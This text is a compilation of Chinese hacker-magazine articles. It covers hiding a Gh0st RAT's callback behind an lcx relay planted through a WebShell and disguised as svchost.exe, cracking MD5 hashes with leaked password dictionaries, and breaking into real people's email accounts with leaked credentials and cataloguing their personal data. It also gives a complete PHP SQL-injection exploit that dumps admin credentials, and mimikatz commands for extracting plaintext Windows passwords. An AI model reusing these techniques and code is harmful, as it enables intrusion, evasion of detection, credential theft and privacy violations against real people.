我们知道，169.254.0.0/16 IP 段是保留地址，是当网卡为 DHCP 模式获取不到 IP 地址时系统所分配的地址，所以在公网是绝对无法访问该 IP 的。那么如果此时我在目标服务器上种了木马，上线地址就只能填自己的真实 IP。可是这样一来，管理员不是很容易就发现了你的真实 IP 吗？你之前所做的一切伪装，所连接的所有跳板都是白费力气。

可是，就真的没有办法隐藏自己吗？能不能既连接 VPN，木马又能上线呢？有！答案就是跳板上线。

何谓跳板上线？普通上线方式是木马服务端直接反向连接到我们的上线地址，那么跳板上线就是木马先经过一个跳板，然后再连接到我们的真实 IP。跳板上线时被控服务器上所显示的连接 IP 是跳板的 IP 地址，就算被管理员发现了也不会暴露我们的真实 IP（听起来是不是和我们所接的 VPN 有一点像，只是这时候是反向连接的），具体示意图如下（表1）：


图1

| 上线方式 | 链路 |
|---|---|
| 普通木马上线方式 | 客户端 ← 服务端 |
| 跳板上线方式 | 客户端 ← 跳板 ← 服务端 |

表1

其中，跳板可以不止一级，可以有很多级，但是相应的，跳板越多数据传输也就会越慢，木马的响应时间也会越长。

下面我们来看跳板上线具体怎么操作。

首先需要的工具是 lcx（也就是 htran），我们只需要用到其中的数据转发功能，如图2。


图2

实际用时，我们需要输入的命令是：

```bash
Lcx -tran 443 123.234.56.78 80
```

其中 443 是木马的上线端口，123.234.56.78 是我们的真实 IP，80 是木马客户端所监听的端口。

然后除了 lcx 我们还需要一个可以执行命令的 WebShell。对，你没有看错，一个 WebShell 就足够！我们不需要有系统的管理员权限，在 WebShell 上就可以运行 lcx。

我们先用菜刀把 lcx 传上去，为了隐蔽，改名字为 svchost.exe，如图3。


图3

然后在虚拟终端中运行之前的命令：

```bash
Svchost -tran 443 真实IP 80
```

如图4。


图4

由于 lcx 会一直运行，所以会导致菜刀提示运行失败，但是事实上已经运行成功了。

这时候配好木马，笔者选用测试木马为 Gh0st 3.6，上线地址最好为动态域名，这样方便以后更换跳板，这里配置域名为 twilight.3322.org，如图5。


图5

同时，还需要将该动态域名的映射地址改为跳板地址，如图6。


图6

这时候，就可以在目标服务器上运行木马了，笔者这里在虚拟机里进行测试。

虚拟机是 2003 的系统，运行木马后等待上线。如图，可以看到木马成功上线，而且地址不是显示虚拟机的内网地址，而是显示的跳板地址，如图7、图8。


图7


图8

虚拟机信息对比，如图9：


图9

图10

我们在虚拟机里面运行 `netstat -an` 进行查看，可以看到只有一条连接，连向跳板的 IP 地址，完全隐藏了我们自身的 IP 地址！如图10。

当需要结束连接时，我们只需要在菜刀里运行 `netstat -ano | find ":443"`，找到我们监听 443 端口的进程 pid；将其结束掉就可以了，如图11。

这里只演示了一个跳板的情况，相应的，我们可以增加到二级、三级甚至更多，2 级跳板就留给读者们去尝试吧。


图11

## Seo风向，我们的圈里圈外

hx小龙（白雪龙）

优酷和土豆合并了，QQ 深情地望着 360 说了一句：“我开始相信爱情了”；苹果看了一眼安卓却说道：“我，再也不相信爱情了”！由此句 YY 话我们可得一个结论：对待同一件事情，站在不同的角度去审视，得到答案是千差万别的，它们的相同点是都在阐述同一个事物，也就是我们经常提到的同一个事物的两个方面。

对于 SEO 中就常存这样的歧义，我想，这也是它焕发光彩之处吧！为什么这样说，且听笔者为你娓娓道来——那些不得不说的“秘密”，那些圈里圈外的 SEO。

SEO，我们经常听到，但也经常被忽视。究其原因我以为：大多数人眼中，SEO 虽然得到了普及和认同，但侧重点、我们的第一印象“貌似”永远是面向站长乃至网络推广营销团队才需要具备的技能。其实非也，对于学习网络技术的我们，每天都会和 SEO 打一个擦边球。

咬文/擦边球一：Robots 文件。在我们入侵一个网站的过程中，总会遇到网站根目录下存在 robots.txt 文件，此时有些朋友就会把它定义为该网站存在 robots 漏洞，如图1所示。当然知其所以然的叉子们一定不会这样认为，我们都晓得 robots.txt 是一个协议，而并非一个命令，更没有什么漏洞之说（这是比较绝对的说法）。robots.txt 是搜索引擎访问网站时要查看的第一个文件，它的作用是告诉搜索引擎在服务器上什么网站可以爬行，什么网站则禁止抓取。

也就是说 robots.txt 在 SEO 中是作为一种屏蔽网站有效收录的手段出现的，而在我们所谓的黑客领域它或许可以称得上一个漏洞利用的条件，因为在其文本中会罗列一些网站程序的目录，更有甚者，某些“牛叉”站长将后台地址也一并加入了 robots.txt 文件中，这样做就更方便了入侵者。例如百度和腾讯微博的 robots.txt 地址 `http://www.baidu.com/robots.txt` 和 `http://t.qq.com/robots.txt`，如图2、3所示。从两图中我们一看便知，首先先观察其共性，它们的 robots.txt 地址都在网站的根目录下；由此可得 robots.txt 的第一个特点就是强制性必须存放在网站根目录下。第二步我们再来看其书写的规格，这里以百度的做参照，内容如下：

```txt
User-agent: Baiduspider
Disallow: /baidu

User-agent: *
Disallow: /shifen/
Disallow: /homepage/
Disallow: /cpro
```

“User-agent: Baiduspider Disallow: /baidu” 代表规定百度爬行蜘蛛不允许爬行 /baidu 目录；“User-agent: * Disallow: /shifen/ Disallow: /homepage/ Disallow: /cpro” 规定所有搜索引擎蜘蛛不允许爬行这些目录。

当然上文所介绍的只是 robots.txt 最基本的语法……无论网站是否需要特意屏蔽收录，都应在根目录下建立 robots.txt 文件，避免因服务器设置问题出现错误状态码。


图1


图2


图3

第一个映入眼帘的是“User-agent”，即中文直译“用户代理”，它是浏览器标识，在这里用于指定下面规则适用于哪种搜索引擎类型……常见搜索引擎 Spider 有 Googlebot、Baiduspider、Yahoo! Slurp、MSNBot 等。

咬文/擦边球二：SEO 的三种方式。提到 SEO 黑帽、白帽、灰帽，并讨论其在实践中的区别与争议。

在 SEO 中没有强烈的道德因素和价值观念……若使用黑帽手段，最终可能导致网站降权；某些行为甚至触及法律红线。

SEO（Search Engine Optimization），汉译为搜索引擎优化，是较为流行的网络营销方式，目的是提升关键词曝光、提高网站可见度与访问量。

SEO 白帽是一种公正手法，遵循主流搜索引擎发行方针规定；SEO 黑帽是不被支持的违规行为；SEO 灰帽介于两者之间，常采用取巧方式操作。

## 傻瓜黑客

算法规则，但同样也不遵守规则，是为灰色地带。

歧义/擦边球三：C类IP地址。C类IP地址是在SEO中经常提到的一个说法，因为它事关一个网站的权重问题……很多大型网站都死在了0day和C段下……“什么叫C段，为什么它这么强悍？”

我们都知道一个IP地址分为4段，如192.168.1.1这个IP地址中，其中它的第三段就是被我们大家所详知的C段……在SEO行业中的C类，是这样认为的，具有同一个C类IP地址的网站或连接应该尽量避免做友情链接点等操作……


图4

到目前为止我们也并不知道SEO是否属于网络安全技术的范畴……这可能也就是所谓的“触类旁通”吧！

### XP不死与Win8再战双系统

Evan

从去年开始网络疯传Windows8泄露版……微软终于做了他该做的事。光是运行比Windows 7更为流畅……但小生依旧离不开配置完好的XP，遂欲安装双系统。

首先在网上下好了Windows8消费者预览版的ISO文件……本次下载好了，用Virtual Drive、Daemon等虚拟光驱工具便可以开始载入ISO文件开始安装……本文便是教大家如何在系统盘空间不足也能安装Windows 8。

我们将下载好的Windows 8映像文件解压至一个不是用来安装Windows 8的磁盘根目录下……这里要用到的工具便是nt6 hdd installer；这次我们要用它来安装Windows 8。

方式，这点就简单了。选择操作方式后界面如图1，我们这里选择模式2即可……接下来重启便可以进入安装步骤……激活密钥：DNJXJ-7XBW8-2378T-X22TX-BKG7J。


图1

重启后我们会进入到系统选项……保持默认的选择项nt6 hdd Installer mode 2 [启用 EMS]。进入之后会看到一个Betta鱼……被用来当作测试版本的象征。

使用体验感觉Win8还算很稳定的，很少崩溃（蓝屏界面也很有爱哦）。


图2


图5


图3


图6


图4


图7

在显示载入文件之后便进入安装了，会让我们选择一些东西，大部分可以保持默认。就像什么语言、时间、输入方式。我们点击“下一步”后再点击“现在安装”按钮后，会让我们输入激活密钥，我们把前面记下来的密钥输进去就好了。输入正确的激活密钥后会出现许可条款，同意并点击“下一步”。接下来便会让我们选择安装方式，这里我们一定要选择“自定义”，即全新安装。选择好安装方式，我们便要选择系统安装位置了，选择好我们准备的磁盘，如果未格式化的话，可以选择好磁盘在下方点击“格式化”来进行安装。点击下一步之后我们就只需要等待一会，这一会儿时间并不久，在小生的电脑上安装Windows 8总共花费了22分钟，相对Windows 7来说，这安装速度还是有所提升的。

等待一会儿后，便会让我们进行第一次设置，这都算微软的惯例了。但是与Windows 7第一次设置很不一样的是，Windows8的风格不再是传统的视窗，而是微软全新的Metro UI。首先会让我们选择喜爱的背景颜色及电脑名称，填好后点击“下一步”。如果附近有无线网络的话，可以连接网络，为待会注册微软账户做准备。没有的话也没有问题的，可以选择“跳过”，可以不使用微软账户来登陆。

接下来按提示去做就好了，小生建议大家去注册一个微软账户，因为这个账户可以激活我们的应用及设置等，其次我们在应用商店中购买应用也是需要微软账户的。从这里可以看出，微软也向个人云服务迈出一大步。

好了，Windows 8已经安装成功了，给大家来一张Metro UI看下，如图3。Windows 8已经安装好了，我们现在就要解决无法进入XP的问题了。我们打开NTBOOTautofix，与nt6 hdd installer一样的是，在打开前会让我们选择操作方式。选择好操作方式后界面如图4，我们点击“自动修复”即可。等待程序找到Xp后修复启动项后并提示修复成功后，我们关闭掉程序。

虽然已经修复好了Xp的启动项，但启动项的名称不是很好，我们可以使用EasyBCD来更改启动项名称。EasyBCD是需要安装的，一路“Next”下去（可能需要安装.Net 2.0 SP2），待安装完成后打开EasyBCD（如图5）。我们点击“Edit Boot Menu”打开如图6所示的界面来修改启动项相关信息。请大家看插图，我在图上很清楚写了各个按钮的功能，大家把启动项的相关设置改完满意的便可以保存了。重启后便会看到Xp与Windows 8的双系统选择项了。（图7）

大家还等什么，还不去体验下微软最新力作Windows 8。当然如果对文章有任何问题，欢迎在微博上与我互动（t.qq.com/hopes-evan）。

（文中涉及的相关软件本期光盘已收录）

### 本地钓鱼MD5

卓晓东


图1

现在MD5加密的应用范围可谓是极其广泛，绝大部分的网站存储账号密码的数据库都采用的是MD5加密方式；只有极少数的是明文密码——毕竟多一层加密就多一层安全。标准的MD5密码是16位和32位的，有不少网站系统为了“更加安全”而采用20位MD5密码（比如DEDECMS系统）、34位MD5密码（比如Serv-U）或是40位的MD5密码（详见小菜在2010年10月《X》上发的“唬人的40位MD5加密”一文），其实这些都是障眼法而已，真正的内容还是16/32位MD5核心密码。想必大家在平时的入侵检测过程中都遇到过拿到了管理员账号的MD5密码却无法破解的情况，要么就是被提示“Found! 这是一条收费记录”，非常郁闷，这将直接导致入侵检测的失败。

那几个比较著名的MD5在线破解网站也越来越不厚道（在此我就不点http://www.xmd5.com的名批评了哈），有的MD5密码明明非常简单竟然也要收费，强烈BS这种做法！咱《X》的免费在线破解MD5网站（http://www.md5.asia/）也经常会出现“未找到，已加入后台处理”的查询结果——毕竟大家所携带的查询数据库终归都是有限的（与无限的密码组合对比而言）。

在此小菜就提供一个破解MD5密码的小技巧来热热身先！

话说某次猜解到管理员账号的MD5密码为“d8cf4200766e16ddbc42038fa89a0ec3”，于是拿到http://www.xmd5.com网站进行在线破解，结果被提示“已经查到，但您查询结果为普通收费数据，点击购买！”（如图1），很郁闷！后来无意联想到admin/admin常规的与账号相同的密码设置习惯，赶紧将管理员的账号“729967209”进行32位的MD5加密，结果正是“d8cf4200766e16ddbc42038fa89a0ec3”（如图2）！


图2

下面正式开始介绍：一款大牛（辛承）刚刚放出来的本地破解MD5的精巧工具M5.exe；其原理非常简单但思路却是十足的巧妙。大家应该对去年年底互联网大泄密事件还有印象吧？也许，一些手快的叉子应该下载到了几个网站的账号数据库；当然，打开看一下也觉得没什么，无非是可以观赏一下普通大众（也包括若干网站管理员大哥）都喜欢用些什么样的密码。这样的数据库还可以拿来做什么用呢？李尕大牛将几个这样的数据库做了整理（包括7k7k、CSDN和人人网的），生成了13个txt字典，一共是800W个密码（排序并且剔除了重复数据）。这个工具可以破解收费MD5密码（也包括那些“Not Found”的记录），也可以用来破解Discuz的39位密码。

小菜猜想它的工作原理应该是这样的：先从字典中读取第一个密码进行MD5加密运算，然后将得到的16/32位MD5密码值与输入查询的字符串进行逐位比较，完全相符的话就说明读取到的密码就是待破解的原密码，破解成功；否则，依次读取第二个、第三个及之后的若干密码进行同样的操作。


图3


图4

工具是否给力呢？小菜在这几年入侵检测过程中有不少的MD5密码“历史遗留问题”，试了几个，还真有被成功破解的！就以“38eb69859bcc825a”为例，在几个网站测试的都是收费记录或是无法破解（咱的http://www.md5.asia/说“未找到，已加入后台处理”）。

打开M5.exe程序，先在右上方的“输入或者加载MD5密文”处选择密文类型为“MD5->md5($pass)”，并将待破解的MD5值粘贴到下方的“单个”输入框中；然后在左侧点击“打开字典文件”选择工具自带的字典（可依次选择），接着点击“破解”按钮即可。很快就弹出“破解成功！”的提示，结果出来了（如图3）：38eb69859bcc825a->admin1230。

另外，为了验证自己所猜想的软件工作原理，小菜自行设置了一个密码“goodgoodstudy,day dayup.”（好好学习，天天向上），其16位的MD5密码是“b7131c0dcab7b5a8”，是无法在线破解出来的。然后新建了一个txt字典文件，将“goodgoodstudy,daydayup.”输入其中，存盘；接着再用M5.exe程序进行破解，当然挂接的字典就是自己刚刚制作的“测试.txt”，点击“破解”按钮后瞬间就出结果了：b7131c0dcab7b5a8->goodgoodstudy,daydayup.（如图4）。

呵呵，完全证实了自己的猜想是正确的。这也同时说明了该工具的核心程序的确是非常给力的，不过所挂接的字典也同样具有极其重要的地位，只要字典中有对应的密码存在，破解就只是个时间问题而已——这就是暴破的最根本原则。X-Scan扫描弱口令是这样，明小子和啊D扫描网站后台地址也是这样。根据这一颠扑不灭的真理，我们完全可以自己制作“对口”的字典来更加有效地进行MD5暴破，比如将社工到的目标网站信息、网管员信箱、QQ、电话号码、生日……甚至是其女友等相关信息用“N.C.P.H社会工程学字典”生成字典，（图5）挂接到M5.exe程序上进行暴破的话，相信最终成功破解的几率还是比较大的，大家不妨一试。


图5

（文中涉及的相关软件本期光盘已收录）

## 菜鸟小“社”RR网数据库

— 牟晓东

#### 引子：复习一篇旧文

话说某日闲来无事，小菜我便从书架上随机抽出了2008《X》合订本【下】复习一下（温故而知新嘛），拜读了秦肠寸断兄的“一个论坛账号引发的故事”（P249）一文，不禁感慨万千。文中大意是：拿到某站的WebShell之后，下载了它的论坛数据库；由于库中有user_email字段，便拿破解出的MD5密码尝试登录sina邮箱，成功；接着上淘宝、QQ邮箱、支付宝，还有使用Google搜索该账号又进入其sohu邮箱……最后是天涯、Mop论坛……几乎是经典的“一个密码走天下”反面教材例子。最后，作者说了句“想必大家也都看到社会工程学的恐怖之处了”，真是令人唏嘘不已啊！

貌似与真正的技术不沾边儿的“社工”，其实威力绝对不容小觑！有时，当你入侵检测走入一个“死胡同”时，那灵光乍现的巧妙一“社”，往往会在瞬间击破防守者看似强悍的城门。想必大家还对去年12月版发生的“脱库”事件记忆犹新吧？你的账号被录了么？你的密码改了么？呵呵，随后网上流传过一阵各种数据库（后来貌似全被和谐了），小菜我偶然地弄到了一部分（就不告诉你从哪儿弄的），目的何在呢？第一，想从中查看一下是否自己的信息也在泄露之列（答案是否定的）；第二，留着，将来万一遇到哪个网站无法渗透的情况，可以从中查一下是否有该网站管理员的信息，因为对应的密码很可能与网站“形似”。不过在复习了“一个论坛账号引发的故事”一文之后，小菜我又忽然有了第三个可爱的想法——做个“社工”小测试。邮箱，在此就略举几例，后果真的是很严重！


图1

#### 小“社”之一：用真实姓名拼音作密码

- 账号：htxxxxx120@126.com，密码：hanxxxg

这是一个早在2005年就注册的“老”邮箱，邮箱积分是2695，等级也达到了21级（如图2），看来是126的忠实用户，竟然还提示“安全系数高”！里面的信息也是够丰富，不仅显示出主人的姓名“韩XX”，而且有其工作单位“潍坊XX公司”。再看一下“收件箱”，虽然只有两页的信息，但其中有“Google密码帮助”、“淘宝邮箱验证”、“凡客诚品账户”、“zhaopin.com注册用户名和密码”、“安智网Email验证”及多个社区的地址验证等敏感信息（如图3），而且还暴露出另外一个关联邮箱（可直接登录）和该用户的手机号码。


图2


图3

“收件箱”中有“人人网注册”和“密码找回”邮件；“已发送”中有一封标题为“照片”的邮件，八成是其女朋友的，好在不是艳照，否则很容易再出个“XX门”事件！还有一封是自己的工作总结（如图5），下载打开后得知其工作的相关信息，比如何时进的XX公司、在XX管理部工作……


图5

继续在“已发送”中查看一下，都是些工作上的重要邮件，比如其中有一封“韩XX新客户资料”的已发邮件，附件中就有一个Excel电子表格附件；下载之后打开，发现其中保存着130多个工作客户的详细信息，包括公司名称、姓名、联系手机及对应的网站等信息（如图4）。试想：如此重要的客户信息如果被竞争对手拿到了，会对自己和公司造成多大的经济损失呢？

还有，通讯录中接近30个经常联系的邮箱地址及对方的真实姓名；“附件”中有若干重要的私人资料，“红旗邮件”中保存了公司的机密信息，“草稿箱”也有客户资料，自己的QQ号码（可仿照下面的例子在QQ上“添加联系人”，会得到更丰富的个人信息，甚至其QQ空间也不加密，其中有其真实生活照——喜欢喝洋白酒的戴眼镜帅哥）……

将该密码在QQ中尝试“查找”，果然有这个用户，网名是“淡XXX咪”，而且其头像为繁体字“飞”（与其姓名的最后一个字是吻合的）；点击“查看资料”，发现“姓名”处是真实姓名的首字母缩写，故乡是“中国 河北 承德”，所在也是“中国 北京 海淀”（如图6），与工作总结中的信息也吻合，另外还有性别、年龄、农历生日、血型、星座、学历等详细信息……


图4


图6

#### 小“社”之二：用QQ号作密码

- 账号：lyf_xxxxx14@126.com，密码：36xxxxx58

2006年注册，等级为16，主人真实姓名是“刘X飞”；

#### 小“社”之三：用电话号码作密码

- 账号：leexxxxxrui@126.com，密码：810xxxxx6

真实姓名是“李XX”，辽宁省人；收件箱144页，共1953封邮件（如图7）；草稿箱内61封，通讯录中保存了205个联系……是私人的各论坛注册信息、长城基金信息等等，甚至还有“中国银行银行卡电子账单”，其中有他的家庭住址、本月消费明细……人：“已发送”18页，共346封邮件……信息足够丰富了，尤以工作上的来往邮件居多（很多标明了“重要”字样），其它的就是


图7

#### 小结

例子不在多，区区三个已经足以说明问题了，小菜在此最想说的是：数据库被暴不是你的错，但是，全国人民都知道要修改密码了而你却仍无动于衷就不对了。其实，之前我还在RR网上测试了一下这三个账号，都无法登录，说明已经修改过密码了；不过，要改就得改个彻底，就像这些126的邮箱密码，结果导致了一次严重泄密。其实归根结底就是一句话——“一个密码走天下”是行不通的，地球真的是很危险滴……

### 菜鸟也来写漏洞利用程序

txcbg

很多Web程序的漏洞利用程序都是用PHP写的。以前都是直接用别人公布的漏洞利用程序，近来小菜我正在学PHP，萌生了自己写个漏洞利用程序的想法。参考别人漏洞利用程序的写法，照葫芦画瓢，经过两天的工夫，终于写出了自己的第一个漏洞利用程序，以后就可以自己写漏洞利用程序了，哈哈。经历过才发现自己用PHP写漏洞利用程序比较简单，希望通过本文原来还不会的小菜也能写自己的漏洞利用程序。

存在注入漏洞的文件是网站根目录下的about.asp，直接访问http://127.0.0.1/about.asp?id=2 union select 1,admin,3,password,5,6 from admin，就可以爆出管理员的用户名和加密过的密码，如图2。


图2

#### 一、找存在漏洞的Web程序

要想写Web程序的漏洞利用程序，首先要有存在漏洞的Web程序。由于小菜我目前还自己找不了程序的洞，只能用别人公布的存在漏洞的Web程序。找到的是w78企业网站管理系统（简体中文单语版）v1.1，它存在一个注入漏洞，并且这是一个老洞了。我在虚拟机里的Windows 2003系统中用IIS把w78企业网站管理系统(简体中文单语版) v1.1安装了起来，在虚拟机里的访问地址为http://127.0.0.1/，首页如图1。


图1

#### 二、编写漏洞利用程序

漏洞利用程序要实现的功能是模拟用浏览器访问http://127.0.0.1/about.asp?id=2 union select 1,admin,3,password,5,6 from admin的过程，并且把爆出的管理员的用户名和密码提取出来显示给用户。

由于是第一次写，我参考了heixiaozixie写的“PageAdmin cms Fckeditor Upload Vul Exploit”漏洞利用程序，在此说明并感谢heixiaozixie。

前面已经看到通过用浏览器访问http://127.0.0.1/about.asp?id=2 union select 1,admin,3,password,5,6 from admin就能在页面上爆出管理员的用户名和密码，怎样用PHP程序来模拟这个动作呢？首先对用浏览器访问 `http://127.0.0.1/about.asp?id=2 union select 1,admin,3,password,5,6 from admin` 抓包，抓到的数据包如下：

```http
GET /about.asp?id=2%20union%20select%201,admin,3,password,5,6%20from%20admin HTTP/1.1
Accept: */*
Accept-Language: zh-cn
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.2)
Host: 127.0.0.1
Connection: Keep-Alive
Cookie: ASPSESSIONID=...
```

关键的就是一条GET数据“`GET /about.asp?id=2%20union%20select%201,admin,3,password,5,6%20from%20admin`”，把它复制下来备用。猜测只要PHP程序提交这条GET数据就好了。在参考相关漏洞程序和PHP手册的基础上经过多次修改测试，终于可以成功提交数据包了，PHP程序源代码如下：

```php
<?php
$host=$argv[1];
$path=$argv[2];
$data="about.asp?id=2%20union%20select%201,admin,3,password,5,6%20from%20admin";
$url=$path.$data;
$buffer = POST($host,80,$url,$data,30);

function POST($host,$port,$path,$data,$timeout=30,$cookie='') {
    $fp = fsockopen($host,$port,$errno,$errstr,$timeout);
    if(!$fp) die($host.':'.$path.$errstr.$errno);
    else {
        fputs($fp,"POST $path HTTP/1.0\r\n");
        fputs($fp,"Host: $host\r\n");
        fputs($fp,"Content-type: application/x-www-form-urlencoded\r\n");
        fputs($fp,"Content-length: ".strlen($data)."\r\n");
    }
}
```

```php
fputs($fp,"Connection: close\r\n\r\n");
fputs($fp,$data."\r\n\r\n");
while(!feof($fp)) {
    $buffer .= fgets($fp,4096);
}
fclose($fp);
return $buffer;
?>
```

下面要从返回的数据包中提取出管理员的用户名和密码，我懒得抓包了，直接把返回的数据写入到一个文本文件，方便查看，修改后的程序源代码如下：

```php
<?php
$host=$argv[1];
$path=$argv[2];
$data="about.asp?id=2%20union%20select%201,admin,3,password,5,6%20from%20admin";
$url=$path.$data;
$data='';
$buffer = POST($host,80,$url,$data,30);
fputs(fopen('test.txt','a+'),$buffer);

function POST($host,$port,$path,$data,$timeout=30,$cookie='') {
    $buffer='';
    $fp = fsockopen($host,$port,$errno,$errstr,$timeout);
    if(!$fp) die($host.':'.$path.$errstr.$errno);
    else {
        fputs($fp,"POST $path HTTP/1.0\r\n");
        fputs($fp,"Host: $host\r\n");
        fputs($fp,"Content-type: application/x-www-form-urlencoded\r\n");
        fputs($fp,"Content-length: ".strlen($data)."\r\n");
        fputs($fp,"Connection: close\r\n\r\n");
        fputs($fp,$data."\r\n\r\n");
    }
}
```

# 馋贼黑客


剩下的就是把管理员的用户名和密码从返回的数据中提取出来了，发现管理员的用户名包含在文件中的唯一字符串“about.asp?id=1" class="n">adminusername</a></td>”中，adminusername是个变量，代表管理员的用户名，先用正则表达式提取这个字符串，具体正则表达式为 `preg_match("/about\\.asp.*\<\/a\>\<\/td\>/i", $buffer, $arr_user)`，获得字符串后再用 `substr()` 函数截取出管理员的用户名，具体代码为 `substr($arr_user[0],26,-9)`；同理，发现管理员的密码在文件中的唯一字符串“margin-bottom:20px;">adminpass</div></td>”中，其中adminpass是个变量，代表管理员用户的密码，先用正则表达式提取这个字符串，具体正则表达式为 `preg_match("/margin-bottom.*\<\/div\>\<\/td\>/i", $buffer, $arr_pass)`，获得字符串后再用 `substr()` 函数截取出管理员的密码，具体代码为 `substr($arr_pass[0],21,-11)`。最后用echo就可以输出获取到的内容了；程序的代码为：


图3


图4

程序的作用是提交数据包，然后用PHP语句“`fputs(fopen('test.txt','a+'),$buffer);`”把返回的数据写入当前目录下的test.txt文件中。把以上代码保存为exp.php，复制到虚拟机中Windows 2003系统中的C盘根目录下，打开命令提示符，切换到C盘根目录下，输入 `php exp.php 127.0.0.1 /`，回车后没有回显，如图3，但打开C盘根目录，发现文件test.txt已经生成了，如图4。（php.exe所在的目录我已经加入了系统环境变量，因此不用输入路径）

打开test.txt，里面有管理员的用户名admin和密码21232f297a57a5a743894a0e4a801fc3；如图5。


图5

```php
<?php
$host=$argv[1];
$path=$argv[2];
if(count($argv)<3){
    print_r("Usage: php {$argv[0]} host path\n");
    print_r("Example:\n");
    print_r("php {$argv[0]} www.site.com path\n");
    exit;
}
$data="about.asp?id=2%20union%20select%20...";
$url=$path.$data;
$buffer = POST($host,80,$url,$data,30);
preg_match("/about\\.asp.*\<\/a\>\<\/td\>/i",$buffer,$arr_user);
preg_match("/margin-bottom.*\<\/div\>\<\/td\>/i",$buffer,$arr_pass);
echo substr($arr_user[0],26,-9);
echo "\n";
echo substr($arr_pass[0],21,-11);

function POST($host,$port,$path,$data,$timeout,$cookie=''){
    $buffer='';
    $fp = fsockopen($host,$port,$errno,$errstr,$timeout);
    if(!$fp) die($host.' '.$path.' '.$errstr.$errno);
    ...
}
?>
```

```php
else {
    fputs($fp, "POST $path HTTP/1.0\r\n");
    fputs($fp, "Host: $host\r\n");
    fputs($fp, "Content-type: application/x-www-form-urlencoded\r\n");
    fputs($fp, "Content-length: ".strlen($data)."\r\n");
    fputs($fp, "Connection: close\r\n\r\n");
    fputs($fp, $data."\r\n\r\n");
    while(!feof($fp)) {
        $buffer .= fgets($fp,4096);
    }
    fclose($fp);
}
return $buffer;
}
?>
```

#### 三、程序功能测试

漏洞利用程序最终的代码写完了，来具体测试下它的功能是否正常。把最终代码替换刚才的exp.php中的代码，在命令行下输入php exp.php，回车后就可以看到程序的用法了，如图6。


图6

输入命令的格式为：

```bash
php exp.php host path
```

其中exp.php是漏洞利用程序的文件名，host是存在漏洞网站的域名或IP地址，path是w78企业网站管理系统（简体中文单语版）v1.1所在的安装目录，在网站根目录下时用/。由于host和path都是变量，因此可以很方便地对任意目标使用此漏洞利用程序。

采用虚拟机中搭建的漏洞网站测试下漏洞利用程序是否可用。由于虚拟机中网站的IP地址为127.0.0.1，在网站根目录下，所以在命令提示符下输入命令：

```bash
php exp.php 127.0.0.1 /
```

回车后显示如图7，显示了管理员用户的用户名admin和密码21232f297a57a5a743894a0e4a801fc3，说明编写的漏洞利用程序功能正常。


图7

#### 四、程序的不足

由于我PHP刚学了一点皮毛，又是第一次写Web程序漏洞的利用程序，在此把程序不足的地方列出来，以方便以后解决。第一个不足就是只能得到管理员用户的第一条记录，如果有多个管理员用户，只能显示第一个用户的用户名和密码。第二个不足就是如果管理员用户名中有中文，会显示乱码，比如我把管理员用户的用户名修改为测试，程序显示的效果如图8。在网上找了几个解决方法都没有成功解决问题，我会把存在漏洞的程序的源代码“w78企业网站管理系统（简体中文单语版）v1.1.RAR”打包给大家，如果哪位朋友能解决中文乱码问题欢迎指点，我在黑客X档案官方论坛的ID是txcbg，欢迎交流。


图8

> （文中涉及的相关软件本期光盘已收录）

### 小试神奇的“神器”

一直以来，小菜我都是走“注入-进后台-拿WebShell”的路子。后来尝试过旁注，期间见识到了提权的艰辛（还不一定会成功），也因此而关注了像MS08-067、MS11-046.exe之类的漏洞利用工具。可惜很多的此类Exp程序都已经失效了——年代过于久远。

近，目标服务器早已打上补丁堵住了漏洞，于是小菜最近比较关注是否有最新的漏洞利用工具出现，以便在第一时间内拿到后武装自己。所谓“功夫不负有心人”，那天在网上看到了大牛的“轻量级调试器牛X神器--mimikatz”，是今年2月23日发布的，据说是个法国佬写的可以直接从lsass.exe中获取Windows下处于active状态账号明文密码的小工具。是否有效呢？我们就来做个小小的测试吧！


首先在自己的Win 7本地机器上测试一下：

解压缩mimikatz_trunk.zip之后会生成三个目录，只须双击打开Win32目录中的mimikatz.exe即可弹出“mimikatz 1.0 x86 (alpha)”窗口，命令提示符是“mimikatz #”。首先进行提权操作，输入命令“privilege::debug”后回车，提示：“SeDebugPrivilege::OK”，接着进行DLL的注入，输入命令“inject::process lsass.exe sekurlsa.dll”后回车，出现六七行提示，因为貌似有法语，小菜也没看懂什么意思，不过并不耽误整体工作；准备工作已经做完，最后就是进行密码的抓取了。输入命令“@getLogonPasswords”后回车，很快就出现了一大堆信息（如图1），其中果然就有自己登录账号（Administrator）的密码，是明文的！

大牛对此的解释是“Windows账号登录时输入的密码在经过lsass.exe中的wdigest和tspkg两个模块调用后，虽然进行了加密处理但并未进行擦除，而且这种加密通过特征能够进行定位，从而可以再按照微软的算法进行可逆破解。”也就是说，只要是服务器开机后登录过的账号，只要机器没有重启就都可以抓出明文密码来（即使注销也逃不过——内存中的密码并没有清除），绝对强悍！

再试一下3389远程机器：

本来，按照大牛的说法——“通常你在远程终端中运行该程序会提示：‘存储空间不足，无法处理此命令’。这是因为在终端模式下，不能插入远线程，跨会话不能注入……”，因此提供给我们某些PsExec.exe、mimikatz.exe和sekurlsa.dll三个文件（在mimikatz_trunk.zip压缩包中都有），而且这些工具不能放在服务器的中文名目录下运行（怕加载DLL时报错），然后提供了像使用PsExec.exe启动、At命令启动、创建服务以及Telnet远程命令管道等好几种方法。不过呢，或许是小菜我RP好，根本没用这些招数，直接在3389远程机器上试验成功，过程如下：

先是通过TeamViewer远程登录到自己单位的一台视频处理服务器（Win XP），然后以此为跳板3389远程登录处于同一内网的一台光盘刻录服务器（IP为10.81.21.246）。测试方法与在本地机上几乎完全一样：上传压缩包后解压，双击运行mimikatz.exe，然后依次输入“privilege::debug”、“inject::process lsass.exe sekurlsa.dll”和“@getLogonPasswords”命令，最后也是非常顺利地成功抓取到登录账号（North_mxd）的明文密码（如图2）！

最后一句：“神器”除了在XP和Win 7上有效之外，同样也适用于Win Server 2003/2008。

（文中涉及的相关软件本期光盘已收录）


## 疯狂坛原创金币之“偷梁换柱”

Xbacktrack

#### 一、说明

ps:

1. 主要讲思路，给大家一个抛砖引玉的效果！
2. 论坛需有的两个条件：  
   a. 上传附件按个数记金钱/积分；  
   b. 可编辑刚刚发表的帖子。

### 二、实战——下面以XX论坛来讲解于如何实现安全刷金币/积分：


图3


图1

1. 首先，得准备一个文件分割工具（RAR自动分卷压缩助手_auto_rar_第三版）和几张符合你发表主题的图片（越小越好）。

